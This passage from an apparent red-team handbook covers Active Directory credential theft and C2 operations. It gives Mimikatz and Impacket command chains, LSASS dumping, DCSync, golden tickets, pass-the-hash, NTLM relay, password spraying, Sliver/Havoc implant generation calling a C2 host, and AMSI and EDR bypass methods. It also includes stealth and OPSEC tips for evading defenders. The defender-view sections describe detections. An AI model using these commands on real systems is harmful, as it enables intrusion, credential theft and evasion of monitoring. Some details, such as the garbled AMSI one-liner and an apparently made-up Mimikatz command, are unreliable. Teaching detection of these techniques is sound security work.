**Defender view.** The primary network signal is **RC4 encryption type 0x17** in Kerberos exchanges — AES is the default on modern domains, so RC4 in a TGS-REP (Event ID 4769) is a strong Kerberoasting indicator. Defender for Identity alert 2410 consumes 4769 for this. AS-REP roasting surfaces as 4768/4771 with `KDC_ERR_PREAUTH_REQUIRED` for accounts that should not be queried. Golden/Diamond tickets show as 4768 with anomalous ticket encryption or no matching real TGT request. S4U abuse produces 4769 service tickets to unusual SPNs. Also watch: `Rubeus` assembly name in AMSI/ETW (obfuscated builds evade this — see [Section 53](#53-net-tradecraft--in-memory-execution)), and LsaCallAuthenticationPackage calls from non-lsass processes.

**Mitigations.** gMSAs (120-char auto-rotated passwords) or dMSAs (Windows Server 2025, secret stored only on DC, device-bound) for service accounts; disable RC4 (enabled-by-default removal in Win11 24H2/Server 2025; Phase 3 enforcement via CVE-2026-20833 mid-2026); set `DoNotRequirePreAuth` off; monitor 4769 etype 0x17 and 4771 pre-auth failures. The Microsoft Kerberoasting guidance (Oct 2024) and NSA/CISA AD advisory (Sept 2024) reinforce gMSA/dMSA and RC4 removal as the structural fixes.

References: [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus), [SpecterOps Rubeus kerberoast docs](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast), [Certify](https://github.com/GhostPack/Certify), [MITRE T1558.003](https://attack.mitre.org/techniques/T1558/003/).

## 56. Mimikatz Usage

Mimikatz ([Gentilkiwi/mimikatz](https://github.com/Gentilkiwi/mimikatz), C, latest 2.2.0-20220919) is the reference credential-theft and forgery tool. ATT&CK: T1003.001 (LSASS memory), T1003.003 (NTDS/DCSync), T1558.001 (Golden Ticket), T1550.002 (PtH). Every CRTP candidate must run this chain in ADLab.

**Standard chain.**

```text
privilege::debug
sekurlsa::logonpasswords
sekurlsa::minidump C:\temp\lsass.dmp
sekurlsa::logonpasswords
lsadump::dcsync /domain:corp.local /user:krbtgt
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /ticket:golden.kirbi
kerberos::ptt golden.kirbi
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<hash> /run:cmd.exe
```

- `sekurlsa::logonpasswords` extracts NTLM hashes, cleartext (only if wdigest is enabled — off by default since 2008 R2, re-enable via `usekiwibadhere` is itself a tell), Kerberos tickets, and DPAPI master keys from LSASS memory.
- `lsadump::dcsync` performs MS-DRSR `IDL_DRSGetNCChanges` replication (needs `DS-Replication-Get-Changes-All`, normally Domain Admins/DCs) to pull any account's hash — including `krbtgt` for Golden Tickets. No code runs on the DC.
- `kerberos::golden` forges a TGT signed with the krbtgt hash; `/ptt` injects it. Because the KDC trusts the krbtgt key, the ticket is valid until the krbtgt password is reset twice (>=10h apart per Microsoft forest-recovery guidance).
- Other modules: `lsadump::sam` (local SAM after `token::elevate`), `lsadump::cache` (DCC2 cached creds, `hashcat -m 2100`), `lsadump::backupkeys` (DPAPI domain backup key), `misc::skeleton` (Skeleton Key backdoor patching DC LSASS), `misc::memssp` (patch LSASS to capture cleartext on next logon).

**LSASS access and LOLBIN dumping.** Touching live LSASS is the highest-sigma action. The modern approach is to dump first, parse offline:
```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id lsass.dmp full
```
Then `sekurlsa::minidump lsass.dmp` + `sekurlsa::logonpasswords` — LSASS is never opened by mimikatz directly. nanodump and ProcDump (`-ma lsass`) are common alternatives.

**LSA Protection (RunAsPPL) bypass.** On Win10+/Server 2016+ with Credential Guard or LSA Protected Process Light, `sekurlsa` PT methods are blocked. Mimikatz loads its signed-but-abused driver: `!+` (load `mimidrv.sys`) then `!processprotect /process:lsass.exe /remove`, then dump. This requires admin and a vulnerable driver-signing posture.

**Defender view.**
| Technique | Signal | Detection |
|---|---|---|
| LSASS memory read | Sysmon EID 10 `GrantedAccess` 0x1410/0x143a to lsass.exe | ASR rule 9e6c4e1f (Block/Audit LSASS credential theft), Defender EDR |
| DCSync | Event 4662 (DS access, access mask 0x113f / `DS-Replication-Get-Changes-All`) from non-DC account | DF TI alert 2006, "Remove non-admin DCSync perms" Secure Score |
| Golden Ticket | 4768 with odd encryption / no prior real TGT request | DF TI alert 2013 |
| Skeleton Key | DC LSASS memory patch, duplicate-key logon | 4768/4769 anomaly, honeytoken auth (2014) |
| Driver load `mimidrv.sys` | Sysmon EID 6 known-vulnerable driver | WDAC/blocklist |

**Mitigations.** Credential Guard / LSA Protected Process Light (makes `sekurlsa` PT methods fail — note this makes ASR LSASS rule redundant); enforce ASR rule GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2` in Block mode; WDAC to block `mimidrv.sys` and known-vulnerable drivers; reset krbtgt password twice >=10h apart after any suspected DC compromise; tiered Enterprise Access Model (Tier 0 = DCs/AD CS CA/AD FS/Entra Connect/backups) to contain DA spread; Protected Users group for privileged accounts (disables NTLM, forces AES). Microsoft's LSASS-dumping blog (Oct 2022) and the NSA/CISA AD advisory (Sept 2024) are the canonical hardening baselines.

References: [Gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz), [The Hacker Recipes mimikatz modules](https://tools.thehacker.recipes/mimikatz/modules), [MS-DRSR IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315), [Defender ASR reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference).

## 57. Impacket Usage

Impacket ([fortra/impacket](https://github.com/fortra/impacket), Python 3.9-3.13, v0.13.1) ships the canonical Python examples for remote AD attacks over SMB/MSRPC/Kerberos/DRSUAPI/WMI. It is the standard non-Windows toolset — run from a Linux C2 or jump host, no .NET required. Install: `python3 -m pipx install impacket`.

**Unified auth syntax.** All examples accept one of three auth forms:
```bash
# Password
tool.py DOMAIN/user:password@target
# Pass-the-hash
tool.py DOMAIN/user@target -hashes :NTHASH
# Kerberos (needs export KRB5CCNAME=ticket.ccache)
tool.py DOMAIN/user@target -k -no-pass
```

**Credential dumping — secretsdump.py.** Dumps hashes without an agent. DRSUAPI DCSync (needs Replicating Directory Changes rights):
```bash
secretsdump.py DOMAIN/user:pass@DC_IP -just-dc              # NTDS only
secretsdump.py DOMAIN/user:pass@DC_IP -just-dc-user Administrator
secretsdump.py DOMAIN/user:pass@DC_IP -use-vss              # VSS method (alt)
secretsdump.py LOCAL -system SYSTEM -sam SAM -security SECURITY  # offline hive
```
ATT&CK T1003.003 (NTDS) / T1003.006 (DCSync). The `-just-dc` flag pulls only NTDS hashes; without it you also get LSA secrets and cached creds.

**Kerberoasting — GetUserSPNs.py.** Tim Medin's attack; outputs John/hashcat format; supports cross-domain `-target-domain`:
```bash
GetUserSPNs.py DOMAIN/user:pass@DC_IP -request -dc-ip 10.0.0.1
# Crack: hashcat -m 13100 hashes.txt rockyou.txt
```
ATT&CK T1558.003. Detection: Event 4769 with RC4 etype 0x17.

**Ticket forging — ticketer.py.** Golden/silver tickets with custom PAC, default lifetime 10 years:
```bash
./ticketer.py -nthash <krbtgt_nthash> -domain-sid S-1-5-21-... -domain corp.local baduser
export KRB5CCNAME=baduser.ccache
```
ATT&CK T1558.001/002. Pair with any `-k -no-pass` example to use the forged ticket.

**Remote execution — lateral movement.**
| Tool | Mechanism | ATT&CK | Noise |
|---|---|---|---|
| `psexec.py` | Drops a service binary to `ADMIN$`, runs as SYSTEM | T1021.002 | Noisy (Event 7045 service install, ADMIN$ writes) |
| `smbexec.py` | Service executing cmd.exe via SMB pipe per command | T1021.002 | Medium |
| `wmiexec.py` | DCOM `IWbemServices`, no service drop, runs as auth user | T1047 | Quieter, semi-interactive shell |
| `atexec.py` | Scheduled task via `NetScheduleJobAdd` | T1053.005 | One-shot command |

```bash
psexec.py DOMAIN/user:pass@10.0.0.5 -service-name legit_svc
wmiexec.py DOMAIN/user@10.0.0.5 -hashes :NTHASH
```
Stealth tip: rename the service with `-service-name` to a plausible name; default `BTOBTO`/`BTOBOT` is a classic sigma.

**NTLM relay — ntlmrelayx.py.** Pairs with Responder (disable SMB/HTTP in `Responder.conf`) or PetitPotam coercion:
```bash
ntlmrelayx.py -tf targets.txt -smb2support
ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp --adcs --template DomainController  # ESC8
ntlmrelayx.py --delegate-access   # RBCD to a computer object
ntlmrelayx.py -socks              # keep authenticated SOCKS sessions
```
Enumerate relayable (SMB-signing-off) hosts first: `nxc smb 10.0.0.0/24 --gen-relay-list relay_targets.txt`. ATT&CK T1557.

**Defender view and mitigations.**
- **secretsdump/DCSync**: Event 4662 from a non-DC principal with access mask 0x113f; DF TI alert 2006. Mitigate: remove `DS-Replication-Get-Changes-All` from non-DC accounts (Secure Score assessment), monitor 4662, tier-0 isolation.
- **GetUserSPNs**: Event 4769 RC4 etype 0x17; DF TI alert 2410. Mitigate: gMSA/dMSA, disable RC4 (Win11 24H2/Server 2025 default; CVE-2026-20833 enforcement mid-2026), service-account password rotation.
- **psexec/wmiexec**: Event 7045 (service install), 4624 type 3/10, `ADMIN$` writes (5140/5145), WMI activity logs. Mitigate: LAPS for local-admin sprawl, restrict SMB/WinRM to tiered hosts, EDR on 7045 with name allowlist, disable Print Spooler + SMBv1 on DCs.
- **ntlmrelayx**: Mitigate by disabling LLMNR/NBT-NS, enforcing SMB signing, LDAP signing + channel binding, EPA (Extended Protection for Authentication) on AD CS web enrollment, `MachineAccountQuota=0`, and patching PetitPotam (CVE-2021-36942).

The NSA/CISA/ASD AD advisory (Sept 2024) is the authoritative hardening baseline that maps each of these Impacket primitives to a corrective control.

References: [fortra/impacket](https://github.com/fortra/impacket), [Impacket examples overview](https://mintlify.wiki/fortra/impacket/examples/overview), [Responder](https://github.com/lgandx/responder), [PetitPotam](https://github.com/topotam/PetitPotam), [NSA/CISA AD advisory](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF).## 58. C2 Framework Usage (Sliver / Cobalt Strike / Havoc)

Command-and-control (C2) is the red team's remote control layer after a foothold is established. It implants an agent (beacon/session) on a victim host that periodically calls home to an operator-controlled teamserver, accepts tasks, and returns output. The three frameworks below span the open-source-to-commercial spectrum and share the same conceptual model: an implant, a listener, a malleable transport profile, and an operator console.

| Framework | License | Agent lang | Transports | Notable features |
|---|---|---|---|---|
| Sliver (BishopFox) | GPLv3, free | Go | mTLS, WireGuard, HTTP(S), DNS | per-binary asymmetric keys, WASM traffic encoders, BOF/COFF, `wg-socks` pivoting |
| Cobalt Strike (Fortra) | Commercial | C/C++ Beacon | HTTP(S), DNS, SMB/TCP pipes | malleable C2 DSL, Aggressor scripting, elevators, lateral-movement methods |
| Havoc (HavocFramework) | Free | C/ASM Demon | HTTP(S) | indirect syscalls, FOLIAGE/Ekko sleep obfuscation, Python modules + BOFs |

**Sliver** is the leading open-source C2. Install: `curl https://sliver.sh/install | sudo bash`. Generate a session (interactive) implant: `generate --mtls 10.0.0.1 --os windows --arch amd64 --save /tmp/`. Generate a beacon (async, stealthier): `generate beacon --http https://c2.example.com --save /tmp/`. Listeners: `mtls` (default 8888), `https --domain c2.example.com --lets-encrypt`, `dns`, `jobs`. Promote a beacon to a session with `interactive`. Useful commands on a session: `shell`, `upload`/`download`, `socks5 start`, `portfwd add`, `execute-assembly`, `sideload`, `migrate`, `make-token`, `getprivs`. DNS canaries (`canaries` command) reveal whether your infrastructure has been fingerprinted.

**Havoc**'s Demon agent uses indirect syscalls to bypass userland API hooks and FOLIAGE/Ekko sleep masking to hide the agent memory between check-ins. Build from source: `git clone https://github.com/HavocFramework/Havoc.git && cd Havoc && make client-build && make ts-build`. Start teamserver: `./havoc server --profile ./profiles/havoc.yaotl -v`. The yaotl profile defines operators, Demon sleep/jitter/SleepMask, and listeners with malleable URIs/UserAgent. Generate a Demon via the UI: Attack -> Payload -> Demon (EXE/DLL/Shellcode, x64). Key Demon commands: `checkin`, `ps`, `sleep 30 10`, `token steal/impersonate <pid>`, `shellcode inject x64 <pid> <raw>`, `dotnet inline-execute <path>`, `socks 1080`.

**Cobalt Strike** Beacon is the commercial reference. Beacon egresses over HTTP(S)/DNS and peers over SMB/TCP named pipes for internal relay. The malleable C2 profile (a DSL) customizes URIs, headers, data transforms (base64/netbios/mask), sleeptime, jitter, useragent; the server interprets transforms in reverse. Validate with `c2lint` before deployment; reference profiles at the Cobalt-Strike/Malleable-C2-Profiles repo. Aggressor Script (Sleep-based) defines aliases, `beacon_initial` auto-run hooks, right-click menus, and `btask()` logging of MITRE technique IDs.

**Defender view.** C2 detection rests on three pillars: network behavioral (beaconing periodicity, low data-volume POSTs, JA3/JA4 TLS fingerprint mismatches, DNS tunneling high-entropy subdomains), host behavioral (unsigned Reflective DLL load, thread start in unbacked memory, `rundll32`/`regsvr32` with no command line, SMB pipe creation on non-hostnames), and EDR telemetry (Sysmon EID 7 image-loaded for known beacon signatures, EID 8 remote-thread creation, EID 22 DNS queries). Defenders should baseline normal HTTP egress, enforce TLS inspection where feasible, and hunt for fixed-interval check-ins. ASR rules and Credential Guard do not block C2 directly but raise the cost of post-exploitation actions the C2 enables. MITRE maps C2 to T1071 (Application Layer Protocol), T1573 (Encrypted Channel), T1090 (Proxy), T1008 (Fallback Channels).

---

## 59. Automation Scripts

Automation is what separates a repeatable red team from a one-off pentest. The goal is to chain recon -> foothold -> collection -> reporting with minimal manual keystrokes, while keeping each step auditable. Three automation layers matter: pre-engagement OSINT, on-host collection, and C2 orchestration.

**Pre-engagement OSINT pipelines.** TrustedSec's OSINT checklist workflow starts with persona/VPN setup, then runs OWASP Amass or `subfinder` for passive DNS, `theHarvester -d target.com -b all -f report.html` for emails/hosts, `crt.sh` certificate-transparency mining (`curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq '.[].name_value' | sort -u`), and Shodan/Censys API queries against the org's IP ranges. SpecterOps' ODIN tool stores results in SQLite3, outputs HTML reports, and exports a Neo4j graph (org=blue, domain=purple, subdomain=green, cert=red, IP=yellow). SpiderFoot (`spiderfoot -l 0.0.0.0:5001`) automates 200+ OSINT modules from a web UI. For dark-web/breach credential hunting, `h8mail -t targets.txt -c config.ini -o pwned.csv` aggregates DeHashed, Snusbase, IntelX, and local breach dumps.

**On-host collection automation.** BloodHound/SharpHound is the canonical AD graph collector. From a domain-joined Windows host: `SharpHound.exe -c All`. From Linux: `bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c DCOnly --zip`. DCOnly collection touches only the DC via LDAP and never connects to workstations — the lowest-footprint option. For stealth: `SharpHound.exe -c All --stealth --throttle 5000 --jitter 30`. ADRecon (`.\\ADRecon.ps1 -Collect Domain,Trusts,Users,Computers,Kerberoast -OutputType Excel`) produces an Excel posture report as a standard domain user.

**C2 orchestration.** In Cobalt Strike, Aggressor scripts automate post-exploitation: `alias kerberoast { bexecuteassembly($1, "Rubeus.exe kerberoast /rc4opsec /nowrap"); }` runs opsec-safe Kerberoasting from a right-click menu; `beacon_initial` auto-runs situational-awareness BOFs on every new beacon. In Havoc, Python modules register BOF-based commands via `demon.InlineExecuteGetOutput(callback, "go", "ObjectFiles/locale.x64.o", b'')`. In Sliver, the `sliver` console supports scripted aliases and HTTP-based tasking.

**Defender view.** Automation leaves volume signatures: a burst of LDAP queries from one host in seconds (SharpHound), identical SMB connections to every DC in a subnet (NetExec), or a single process spawning `whoami`/`ipconfig`/`net group`/`nltest` in a tight script (BOF recon). Defender for Identity flags SharpHound-style LDAP enumeration; ASR + EDR correlate recon-command chains. Monitor Event 4662 (directory-service access) for unusual query patterns and Event 4648 (explicit credential logon) for `runas /netonly` (the classic BloodHound-from-Linux pattern). Map to MITRE T1087 (Account Discovery), T1018 (Remote System Discovery), T1482 (Domain Trust Discovery).

---

## 60. Common Payloads & Commands

After the C2 is up, a small set of payloads and commands covers 90% of in-network work. Group them by objective: credential access, lateral movement, persistence, and collection.

**Credential access.**
- Mimikatz (T1003.001): `privilege::debug` then `sekurlsa::logonpasswords` dumps NTLM hashes, cleartext (if wdigest enabled), Kerberos tickets, and DPAPI master keys from LSASS. Offline variant avoids touching live LSASS: `sekurlsa::minidump C:\temp\lsass.dmp` then `sekurlsa::logonpasswords`. LOLBIN dump: `rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id lsass.dmp full`. DCSync (T1003.006): `lsadump::dcsync /domain:corp.local /user:krbtgt` — needs DS-Replication-Get-Changes-All rights.
- Rubeus (T1558.003/.004): opsec Kerberoasting filters AES-enabled accounts: `Rubeus.exe kerberoast /rc4opsec /nowrap`. AS-REP roasting: `Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt`. Overpass-the-hash: `Rubeus.exe asktgt /user:dfm.a /rc4:<NTHASH> /ptt`. Crack with `hashcat -m 13100` (Kerberoast RC4), `-m 18200` (AS-REP), `-m 19600/19700` (AES).
- Impacket `secretsdump.py DOMAIN/user:pass@DC_IP -just-dc` performs DCSync over the wire; `GetUserSPNs.py` Kerberoasts from Linux; `ticketer.py` forges golden/silver tickets.

**Lateral movement.**
- Impacket `wmiexec.py DOMAIN/user@10.0.0.5 -hashes :NTHASH` (DCOM, quiet, no service drop) vs `psexec.py` (drops a service binary to ADMIN$, runs as SYSTEM, noisy — Event 7045 service install).
- Evil-WinRM: `evil-winrm -i 10.0.0.5 -u Administrator -H <NTHASH>` for PtH over WinRM; supports in-memory `Invoke-Binary` and `Bypass-4MSI`.
- NetExec spraying: `nxc smb 10.0.0.0/24 -u users.txt -p 'Spring2026!' --continue-on-success`; dump SAM: `nxc smb 10.0.0.50 -u admin -p pass --sam`.

**Pivoting.** ligolo-ng (TUN, full TCP/UDP/ICMP): `./proxy -selfcert` on attacker, `./agent -connect <ip>:11601 -ignore-cert` on target, then `sudo ip route add 10.1.2.0/24 dev ligolo`. Chisel (SOCKS, needs proxychains): `./chisel server -p 8000 --reverse --socks5` / `./chisel client <ip>:8000 R:1080:socks`.

**Defender view.** Each command has a detection signal. LSASS access: Sysmon EID 10 GrantedAccess 0x1410/0x143a; ASR rule `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2` blocks LSASS memory reads (Block or Audit mode). DCSync: Event 4662 with replication access mask 0x113f from a non-DC account — Defender for Identity alert 2006. Kerberoasting: Event 4769 with ticket encryption type 0x17 (RC4) — DfI alert 2410. AS-REP roasting: Event 4771 (pre-auth failed) for accounts with UAC DONT_REQUIRE_PREAUTH — DfI alert 2412. Lateral movement: Event 4624 LogonType 3 with NTLM (pass-the-hash), 7045 service install (psexec), 4688 process creation with anomalous parent. Spraying: 4771/4776 failure code 0x18 across many accounts from one source IP. Enforce SMB signing, LAPS, gMSAs, RC4 removal, and Credential Guard to blunt these.

---

## 61. Bypass Techniques (AMSI / CLM / ScriptBlock Logging / Defender)

After code lands on a host, four Windows security controls stand between the red team and execution: AMSI, Constrained Language Mode, ScriptBlock Logging, and Microsoft Defender. Each bypass is a distinct technique with its own detection signal.

**AMSI (Anti-Malware Scan Interface)** is a Windows 10+/Server 2016+ interface that lets Defender inspect script content (PowerShell, JS/VBS, .NET) before execution. The classic bypass patches `amsi.dll!AmsiScanBuffer` in-memory to return `AMSI_RESULT_CLEAN`. A common one-liner: `$mem=[System.Runtime.InteropServices.Marshal]::ReadIntPtr([aming-context]);...` — but the well-known `amsiInitFailed` string variant is heavily signatured, so operators use base64/XOR-obfuscated payloads or load reflective .NET assemblies that AMSI cannot inspect. Evil-WinRM bundles `Bypass-4MSI`. Havoc's Demon uses indirect syscalls to avoid hooked API paths entirely.

**Constrained Language Mode (CLM)** restricts PowerShell to a limited feature set when Device Guard/WDAC policy applies. It blocks COM objects, Win32 API calls, and Add-Type. Bypass options: use the built-in `System.Management.Automation` .NET types directly (no Add-Type), run a C# assembly via `execute-assembly` (the C2 host process is not constrained), or abuse a CLM-exempt configuration (e.g., `__PSLockdownPolicy` set by an admin). SharpView and Rubeus are the .NET ports of PowerView/Kekeo precisely because CLM-blocked PowerShell tools fail.

**ScriptBlock Logging** (Event 4104) records the de-obfuscated content of every PowerShell script block — defeating obfuscation by design. The bypass is not to disable logging (which is itself an alert) but to avoid PowerShell: run BOFs (C/COFF, no .NET, no PowerShell), use `execute-assembly` to load C# in a native process, or use direct syscalls. If PowerShell is required, AMSI-bypass first, then reflectively load the script in-memory to avoid disk and ScriptBlock 4104 from the ISE/engine — note 4104 still fires for in-memory script blocks on enabled hosts; the only reliable evasion is a non-PowerShell execution path.

**Microsoft Defender / EDR.** Techniques: (1) signature evasion via Shikata Ga Nai or custom shellcode encoders (Sliver ships these); (2) unhooking `ntdll.dll` by loading a fresh copy from disk over the hooked one; (3) indirect/direct syscalls (Havoc Demon, ajpc500 BOFs) to skip userland hooks; (4) sleep obfuscation (Ekko/FOLIAGE) to encrypt agent memory between check-ins so memory scans find nothing; (5) LOLBINs (`rundll32`, `regsvr32 /u /s /i`, `wmic`) for initial execution; (6) process injection into a legitimate signed process (`explorer.exe`) via `CreateRemoteThread` or APC queue.

**Defender view.** Every bypass has a tell. AMSI patching: Event 4104 with the patch byte pattern, or EDR telemetry showing a write to `amsi.dll` memory. CLM tampering: `__PSLockdownPolicy` registry change (Event 4657). ScriptBlock 4104 itself is the detection — hunt for obfuscated or patching content. Defender: tamper protection (Windows 10 1903+) blocks registry edits to Defender settings; EDR kernel callbacks (PsSetCreateProcessNotifyRoutine, ObRegisterCallbacks) see process injection even with userland unhooking. ASR rules block many LOLBIN abuses. The defender's strongest move is assuming breach and hunting for the *artifact of the bypass*, not the payload — a patched `amsi.dll` in memory is far rarer than any specific malware.

---

## 62. Anti-Analysis & Evasion

Anti-analysis is the discipline of hiding the implant and its operator from both host telemetry and network attribution. It sits on top of the bypass techniques in [Bypass Techniques](#bypass-techniques-amsi--clm--scriptblock-logging--defender) and covers sleep-time memory hiding, egress blending, infrastructure separation, and operator OPSEC.

**Host evasion.** Sleep obfuscation (Ekko, FOLIAGE) encrypts the implant's memory while it sleeps between check-ins, so EDR memory scans find no valid PE headers or known beacon strings — wake, decrypt, task, re-encrypt. Indirect syscalls (Havoc Demon, Outflank BOFs) issue syscalls via a manual `syscall` instruction in a non-hooked region, bypassing userland API hooks in `ntdll.dll`. Module stomping loads a legitimate DLL into a hollowed region and runs shellcode from there, so the memory looks like a normal signed module. Token impersonation (`make-token`, `token impersonate <pid>`) executes actions as another user without `runas`, avoiding Event 4648 explicit-logon spam.

**Network evasion.** Domain-fronting and malleable C2 profiles blend egress into legitimate CDN traffic: the TLS SNI points to a CDN front (e.g., `*.cloudfront.net`), while the Host header routes to the hidden teamserver behind the CDN. Malleable profiles (Cobalt Strike) or WASM traffic encoders (Sliver) transform beacon data to look like normal web traffic (GET for tasks, POST for output, cookie/header steganography). DNS canaries in Sliver reveal if a blue team has fingerprinted your domains — operators must watch for canary hits. Jitter (e.g., `sleep 30 10` — 30s +/- 10) breaks fixed-interval beaconing detection. Avoid default ports and URIs; every stock `beacon.dll` or `/api/v1` path is signatured.

**Infrastructure separation.** Run separate redirectors per engagement, never reuse teamserver IPs, and terminate infrastructure at engagement end. Use domain-generation algorithms (DGA) or rotating subdomains so a single sinkhole does not burn the whole campaign. Block your own operator IP from analytics; never browse target resources from an operator identity linked to the C2.

**Dark-web OPSEC for analysts.** The gl0bal01/intel-codex SOP for dark-web investigation mandates Tails/Whonix, cross-context separation (no clearnet identity login from Tor), WARC archives with SHA-256 hashing for evidence, and observation-only posture (no marketplace registration). OnionScan detects the same OPSEC mistakes in adversary infrastructure: Apache mod_status exposure (9-10% of onion sites leak co-hosted services and clearnet IPs), EXIF metadata in images, and SSH key fingerprints linking co-hosted services.

**Defender view.** Hunt for the artifacts of evasion, not the evasion itself: a process with no on-disk binary but active threads (unbacked memory), a legitimate-signed process making network calls inconsistent with its purpose (`notepad.exe` calling out on 443), a `amsi.dll`/`ntdll.dll` memory region whose bytes differ from the on-disk version, a sleep-time memory region that changes protection from RWX to RX cyclically (Ekko). EDR with kernel callbacks sees past userland unhooking. JA3/JA4 TLS fingerprints catch reused C2 certificates across engagements. Map to MITRE T1027 (Obfuscated Files), T1055 (Process Injection), T1562 (Impair Defenses), T1572 (Protocol Tunneling), T1573 (Encrypted Channel).

---

## 63. Common Mistakes & OpSec Failures

Most red-team engagements fail not because a technique was detected, but because of operator mistakes that generate high-signal telemetry. These are the recurring ones, with the detection each triggers.

**1. Default payload, default port, default URI.** A stock Sliver `beacon.dll` or Cobalt Strike `beacon.exe` on port 8443 with `/api/v1` is signatured in every EDR and network IDS. Fix: custom loaders, compile-time obfuscation (Sliver `generate` builds per-binary asymmetric keys), non-default ports behind a redirector, malleable profiles that mimic the target's real web app. Detection: JA3/JA4 mismatch, known-implicant YARA rules in memory.

**2. Beaconing with zero jitter.** `sleep 60 0` (no jitter) produces a perfectly periodic check-in that any SIEM beaconing hunt catches in minutes. Fix: always set jitter, e.g., `sleep 60 20`. Detection: fixed-interval POST correlation.

**3. Running recon commands in tight, ordered scripts.** `whoami /all; ipconfig /all; net user; net group "Domain Admins"; nltest /dclist` in a 3-second window is the universal "new beacon just landed" fingerprint. Defender for Identity and EDRs correlate this chain. Fix: space commands across minutes, use BOFs (no child `cmd.exe`), or use BloodHound DCOnly (one LDAP connection vs. many `net` calls). Detection: Event 4688 process-chain correlation, DfI recon alerts.

**4. `runas /netonly` for BloodHound-from-Linux.** This fires Event 4648 (explicit credential logon) — a high-signal event on endpoints. Fix: use `bloodhound-ce-python` from a Linux attack box with explicit `-u`/`-p` or `-k`/ccache; no Windows 4648. Detection: 4648 with `TargetOutboundUserName` matching a recon pattern.

**5. LSASS access without checking ASR/Credential Guard.** Running `sekurlsa::logonpasswords` on a host with the LSASS ASR rule (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) in Block mode, or with Credential Guard enabled, fails loudly and generates an `AsrLsassCredentialTheftBlocked` event. Fix: check first (` Seatbelt` or a BOF), prefer offline minidump + offline Mimikatz, or use nanodump/SafetyKatz which use different primitives. Detection: ASR blocked event, Credential Guard LSASS isolation alert.

**6. Dropping psexec.py service binary.** Impacket `psexec.py` writes `remcomsvc.exe` to ADMIN$ and creates a service (Event 7045). It is the noisiest lateral-movement primitive in the kit. Fix: use `wmiexec.py` (DCOM, no service) or Evil-WinRM (WinRM). Detection: 7045 service install with a random name, ADMIN$ file write.

**7. Kerberoasting all SPNs with RC4.** `Rubeus.exe kerberoast` against every SPN generates many 4769 events with etype 0x17 — the textbook Kerberoasting signal (DfI alert 2410). Fix: `/rc4opsec` filters to RC4-only non-AES accounts (fewer, higher-value hashes), or target specific users `/user:svc-sql`. Detection: 4769 volume + RC4 etype from one source.

**8. Reusing infrastructure across engagements.** The same teamserver IP, SSL certificate, or domain across two ops means one burn burns both. Fix: per-engagement redirectors, rotate certs, terminate at end. Detection: threat-intel feed correlation.

**9. Operator browsing target from C2 identity.** Logging into the target's VPN or O365 from the same IP/domain as the C2 links the operator to the attack. Fix: strict identity separation; use a separate VM and egress for any interactive target access.

**10. Leaving default Cobalt Strike beacons vulnerable to CVE-2022-39197.** Unpatched Cobalt Strike (pre-4.7.1) lets a compromised beacon XSS the operator client via the username field, achieving RCE on the teamserver operator. Fix: upgrade, set `limits.beacons_xssvalidated=true`. This is also a defender counter-offensive: a blue team that compromises a beacon can retaliate against the operator.

The pattern across all ten: the red team loses when it acts like malware (volume, defaults, signatures), not when the defender has magic tooling. Slow, blended, custom, and separated is the discipline.## 64. Edge Cases

OSINT and dark web analysis is messy. Real engagements throw edge cases that break textbook workflows. The most common ones and how to handle them.

**Stale breach credentials that still work.** Mandiant's UNC5537/Snowflake investigation found credentials stolen as far back as November 2020 were still valid years later because they were never rotated and had no MFA ([Mandiant](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)). 79.7% of leveraged accounts had prior credential exposure. Treat any breach hit as live until proven otherwise — never assume "old dump = dead cred."

**Session cookies bypass MFA entirely.** This is the edge case that kills MFA programs. Stealer logs contain active session cookies. Replaying a stolen cookie continues an already-authenticated session, so push/SMS/TOTP MFA never fires. Per Flare's 2026 data, 1.17M logs contained both credentials AND session cookies, and 79% of enterprise logs exposed Microsoft Entra ID credentials ([Ransomnews](https://ransomnews.com/stealer-logs-explained-2026/)). Only FIDO2/passkeys bound to a device resist this. If your "MFA rollout" is SMS or push, you have not closed the credential-stuffing gap.

**Dark web leak-site data undercounts impact.** Unit 42 stresses this caveat: CL0P claimed 364 orgs via MOVEit (CVE-2023-34362) but the real victim count exceeded 2,730 ([Unit 42](https://unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023/)). Victims who pay immediately never appear on leak sites; some gangs operate with no DLS at all. Never treat leak-site counts as ground truth — use them as a lower bound.

**On-prem accounts without PHS won't surface in Entra leakedCredentials.** Microsoft's leaked-credential matching only works for on-prem accounts when Password Hash Synchronization is enabled, and only for credentials discovered after PHS is turned on ([Microsoft](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)). A pure AD Connect DirSync (no PHS) tenant has a blind spot. The Defender for Identity "leaked credentials" posture assessment (Nov-Dec 2025 rollout) closes this for on-prem AD directly ([Microsoft](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts)).

**Plaintext passwords in AD attributes.** Microsoft's AI detection found 40,000+ exposed credentials in free-text AD attributes (description, info, adminComment) across 2,500 tenants ([Microsoft](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)). These are readable by any authenticated user and are not monitored by default — a low-friction lateral-movement target that breach-DB lookups will never find because the data never left the forest.

